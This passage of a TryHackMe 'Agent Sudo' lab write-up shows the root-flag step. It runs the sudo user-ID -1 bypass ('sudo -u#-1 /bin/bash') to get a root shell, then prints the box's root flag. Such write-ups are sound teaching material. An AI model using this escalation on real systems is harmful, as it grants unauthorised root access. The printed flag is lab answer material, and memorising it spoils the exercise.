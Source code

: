 ###

### What is the root flag?

* We can also find the exploit for this vulnerability on Exploit Database.

<figure><img src="../../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

* Let's enter that in the terminal.

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```

* We have successfully escalated out privilege to root.
* Let's `cat` the root flag.

```
root@agent-sudo:/root# cd /root ; cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### Answer
